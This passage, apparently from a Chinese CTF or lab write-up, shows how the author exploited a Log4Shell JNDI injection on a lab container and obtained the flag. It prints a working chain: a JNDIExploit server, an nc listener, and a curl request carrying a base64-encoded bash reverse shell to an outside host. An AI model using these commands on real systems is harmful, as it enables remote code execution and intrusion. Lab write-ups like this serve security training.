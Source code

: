 尝试反弹 Shell : 

这里使用 tmux 分割三个终端, 分别执行以下命令 :

```shell
# 开启 JNDI 服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.5.134

# 监听端口，等待靶标容器连接
nc -l -p 7777

# 发送包含访问恶意命令（ Base64 编码的反弹 Shell 命令）地址的 HTTP 请求
sudo apt install xxd

SHELL_COMMAND="bash -i >& /dev/tcp/192.168.5.134/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.5.132:53860/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.5.134:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

```

flag 即为 : **flag-{bmh95894fd4-c71c-4ad5-b1eb-83b886126dcf}**

![](../img/DaleChu/jndi_atk.png)


asciinema 录屏 :

[![asciinema_1](https://asciinema.org/a/pNz6cot6L8jaaLtpIdzdMwkMW.svg)](https://asciinema.org/a/pNz6cot6L8jaaLtpIdzdMwkMW)


